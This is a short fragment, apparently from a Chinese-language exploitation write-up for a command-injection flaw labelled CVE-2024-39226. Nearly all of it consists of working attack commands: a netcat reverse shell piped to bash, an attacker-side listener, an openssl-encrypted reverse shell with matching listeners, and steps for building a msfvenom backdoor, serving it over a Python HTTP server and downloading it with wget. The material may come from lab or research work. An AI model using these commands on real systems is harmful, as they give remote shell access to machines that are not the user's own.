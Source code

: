 ```shell
mkfifo /tmp/f ; nc 192.168.2.1 6000 < /tmp/f | bash -i  > /tmp/f 2>&1 ; rm /tmp/f
```

![image-20250221234403674](./assets/CVE-2024-39226命令注入/image-20250221234403674.png)

攻击机：

```shell
nc -lvp 6000
```



利用 openssl：

```shell
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 6000
or ：
ncat --ssl -vv -l -p 6000
```

```shell
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.2.1:6000 > /tmp/s; rm /tmp/s
```



此外，还可以利用木马文件：

* metasploit 的 msfvenom 生成一个目标系统架构的 backdoor 文件，功能是反连 shell

* 然后本地 python 起一个 http 服务

  * 服务端：

    ```shell
    python -m SimpleHTTPServer，默认监听本地8000端口
    ```

  * 客户端：

    ```shell
    wget http://ip:8000/xxx
    ```
